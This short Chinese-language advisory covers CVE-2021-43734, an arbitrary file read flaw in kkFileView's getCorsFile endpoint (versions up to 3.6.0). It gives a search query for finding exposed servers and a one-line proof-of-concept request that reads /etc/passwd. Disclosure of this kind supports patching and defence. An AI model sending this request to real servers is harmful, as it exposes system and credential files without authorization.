


# kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

```
kkFileView getCorsFile <= 3.6.0
```

## 网络测绘

```
body="kkFileView"
```

## 漏洞复现

主页面



验证POC

```
/getCorsFile?urlPath=file:///etc/passwd 
```

